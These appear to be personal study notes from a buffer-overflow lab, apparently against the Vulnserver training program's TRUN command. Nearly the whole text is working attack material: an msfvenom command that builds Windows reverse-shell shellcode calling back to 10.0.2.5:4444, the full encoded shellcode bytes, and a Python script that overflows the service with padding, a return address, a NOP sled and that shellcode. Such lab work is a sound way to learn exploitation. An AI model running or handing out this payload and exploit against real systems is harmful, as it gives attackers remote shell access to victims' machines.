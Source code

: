 Generating shellcode and gaining root access

Friday, June 23, 2023

10:05 PM

Msfvenom payload with the null byte we found as badchar

 

msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.5 LPORT=4444 EXITFUNC=thread -f c -a x86 -b \"\\x00\"

 

 

Found 12 compatible encoders

Attempting to encode payload with 1 iterations of x86/shikata_ga_nai

x86/shikata_ga_nai succeeded with size 351 (iteration=0)

x86/shikata_ga_nai chosen with final size 351

Payload size: 351 bytes

Final size of c file: 1506 bytes

unsigned char buf\[\] =

\"\\xdd\\xc2\\xb8\\x3d\\x84\\x29\\xae\\xd9\\x74\\x24\\xf4\\x5f\\x29\\xc9\"

\"\\xb1\\x52\\x31\\x47\\x17\\x83\\xef\\xfc\\x03\\x7a\\x97\\xcb\\x5b\\x78\"

\"\\x7f\\x89\\xa4\\x80\\x80\\xee\\x2d\\x65\\xb1\\x2e\\x49\\xee\\xe2\\x9e\"

\"\\x19\\xa2\\x0e\\x54\\x4f\\x56\\x84\\x18\\x58\\x59\\x2d\\x96\\xbe\\x54\"

\"\\xae\\x8b\\x83\\xf7\\x2c\\xd6\\xd7\\xd7\\x0d\\x19\\x2a\\x16\\x49\\x44\"

\"\\xc7\\x4a\\x02\\x02\\x7a\\x7a\\x27\\x5e\\x47\\xf1\\x7b\\x4e\\xcf\\xe6\"

\"\\xcc\\x71\\xfe\\xb9\\x47\\x28\\x20\\x38\\x8b\\x40\\x69\\x22\\xc8\\x6d\"

\"\\x23\\xd9\\x3a\\x19\\xb2\\x0b\\x73\\xe2\\x19\\x72\\xbb\\x11\\x63\\xb3\"

\"\\x7c\\xca\\x16\\xcd\\x7e\\x77\\x21\\x0a\\xfc\\xa3\\xa4\\x88\\xa6\\x20\"

\"\\x1e\\x74\\x56\\xe4\\xf9\\xff\\x54\\x41\\x8d\\xa7\\x78\\x54\\x42\\xdc\"

\"\\x85\\xdd\\x65\\x32\\x0c\\xa5\\x41\\x96\\x54\\x7d\\xeb\\x8f\\x30\\xd0\"

\"\\x14\\xcf\\x9a\\x8d\\xb0\\x84\\x37\\xd9\\xc8\\xc7\\x5f\\x2e\\xe1\\xf7\"

\"\\x9f\\x38\\x72\\x84\\xad\\xe7\\x28\\x02\\x9e\\x60\\xf7\\xd5\\xe1\\x5a\"

\"\\x4f\\x49\\x1c\\x65\\xb0\\x40\\xdb\\x31\\xe0\\xfa\\xca\\x39\\x6b\\xfa\"

\"\\xf3\\xef\\x3c\\xaa\\x5b\\x40\\xfd\\x1a\\x1c\\x30\\x95\\x70\\x93\\x6f\"

\"\\x85\\x7b\\x79\\x18\\x2c\\x86\\xea\\x2d\\xb1\\x8a\\xef\\x59\\xb3\\x8a\"

\"\\xfe\\xc5\\x3a\\x6c\\x6a\\xe6\\x6a\\x27\\x03\\x9f\\x36\\xb3\\xb2\\x60\"

\"\\xed\\xbe\\xf5\\xeb\\x02\\x3f\\xbb\\x1b\\x6e\\x53\\x2c\\xec\\x25\\x09\"

\"\\xfb\\xf3\\x93\\x25\\x67\\x61\\x78\\xb5\\xee\\x9a\\xd7\\xe2\\xa7\\x6d\"

\"\\x2e\\x66\\x5a\\xd7\\x98\\x94\\xa7\\x81\\xe3\\x1c\\x7c\\x72\\xed\\x9d\"

\"\\xf1\\xce\\xc9\\x8d\\xcf\\xcf\\x55\\xf9\\x9f\\x99\\x03\\x57\\x66\\x70\"

\"\\xe2\\x01\\x30\\x2f\\xac\\xc5\\xc5\\x03\\x6f\\x93\\xc9\\x49\\x19\\x7b\"

\"\\x7b\\x24\\x5c\\x84\\xb4\\xa0\\x68\\xfd\\xa8\\x50\\x96\\xd4\\x68\\x70\"

\"\\x75\\xfc\\x84\\x19\\x20\\x95\\x24\\x44\\xd3\\x40\\x6a\\x71\\x50\\x60\"

\"\\x13\\x86\\x48\\x01\\x16\\xc2\\xce\\xfa\\x6a\\x5b\\xbb\\xfc\\xd9\\x5c\"

\"\\xee\";

 

-   Payload size is important

 

New python payload with (no operation) nop before overflow for padding. May have to play around with amount of padding for exploit development.

 

#!/usr/bin/python

import sys, socket

 

overflow = (\"\\xdd\\xc2\\xb8\\x3d\\x84\\x29\\xae\\xd9\\x74\\x24\\xf4\\x5f\\x29\\xc9\"

\"\\xb1\\x52\\x31\\x47\\x17\\x83\\xef\\xfc\\x03\\x7a\\x97\\xcb\\x5b\\x78\"

\"\\x7f\\x89\\xa4\\x80\\x80\\xee\\x2d\\x65\\xb1\\x2e\\x49\\xee\\xe2\\x9e\"

\"\\x19\\xa2\\x0e\\x54\\x4f\\x56\\x84\\x18\\x58\\x59\\x2d\\x96\\xbe\\x54\"

\"\\xae\\x8b\\x83\\xf7\\x2c\\xd6\\xd7\\xd7\\x0d\\x19\\x2a\\x16\\x49\\x44\"

\"\\xc7\\x4a\\x02\\x02\\x7a\\x7a\\x27\\x5e\\x47\\xf1\\x7b\\x4e\\xcf\\xe6\"

\"\\xcc\\x71\\xfe\\xb9\\x47\\x28\\x20\\x38\\x8b\\x40\\x69\\x22\\xc8\\x6d\"

\"\\x23\\xd9\\x3a\\x19\\xb2\\x0b\\x73\\xe2\\x19\\x72\\xbb\\x11\\x63\\xb3\"

\"\\x7c\\xca\\x16\\xcd\\x7e\\x77\\x21\\x0a\\xfc\\xa3\\xa4\\x88\\xa6\\x20\"

\"\\x1e\\x74\\x56\\xe4\\xf9\\xff\\x54\\x41\\x8d\\xa7\\x78\\x54\\x42\\xdc\"

\"\\x85\\xdd\\x65\\x32\\x0c\\xa5\\x41\\x96\\x54\\x7d\\xeb\\x8f\\x30\\xd0\"

\"\\x14\\xcf\\x9a\\x8d\\xb0\\x84\\x37\\xd9\\xc8\\xc7\\x5f\\x2e\\xe1\\xf7\"

\"\\x9f\\x38\\x72\\x84\\xad\\xe7\\x28\\x02\\x9e\\x60\\xf7\\xd5\\xe1\\x5a\"

\"\\x4f\\x49\\x1c\\x65\\xb0\\x40\\xdb\\x31\\xe0\\xfa\\xca\\x39\\x6b\\xfa\"

\"\\xf3\\xef\\x3c\\xaa\\x5b\\x40\\xfd\\x1a\\x1c\\x30\\x95\\x70\\x93\\x6f\"

\"\\x85\\x7b\\x79\\x18\\x2c\\x86\\xea\\x2d\\xb1\\x8a\\xef\\x59\\xb3\\x8a\"

\"\\xfe\\xc5\\x3a\\x6c\\x6a\\xe6\\x6a\\x27\\x03\\x9f\\x36\\xb3\\xb2\\x60\"

\"\\xed\\xbe\\xf5\\xeb\\x02\\x3f\\xbb\\x1b\\x6e\\x53\\x2c\\xec\\x25\\x09\"

\"\\xfb\\xf3\\x93\\x25\\x67\\x61\\x78\\xb5\\xee\\x9a\\xd7\\xe2\\xa7\\x6d\"

\"\\x2e\\x66\\x5a\\xd7\\x98\\x94\\xa7\\x81\\xe3\\x1c\\x7c\\x72\\xed\\x9d\"

\"\\xf1\\xce\\xc9\\x8d\\xcf\\xcf\\x55\\xf9\\x9f\\x99\\x03\\x57\\x66\\x70\"

\"\\xe2\\x01\\x30\\x2f\\xac\\xc5\\xc5\\x03\\x6f\\x93\\xc9\\x49\\x19\\x7b\"

\"\\x7b\\x24\\x5c\\x84\\xb4\\xa0\\x68\\xfd\\xa8\\x50\\x96\\xd4\\x68\\x70\"

\"\\x75\\xfc\\x84\\x19\\x20\\x95\\x24\\x44\\xd3\\x40\\x6a\\x71\\x50\\x60\"

\"\\x13\\x86\\x48\\x01\\x16\\xc2\\xce\\xfa\\x6a\\x5b\\xbb\\xfc\\xd9\\x5c\"

\"\\xee\")

 

shellcode = \"A\" \* 2003 + \"\\xaf\\x11\\x50\\x62\" + \"\\x90\" \* 32 + overflow

try:

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((\'192.168.1.221\',9999))

s.send((\'TRUN /.:/\' +shellcode))

s.close()

except:

print \"Error connecting to the server\"

sys.exit()

 

 

 
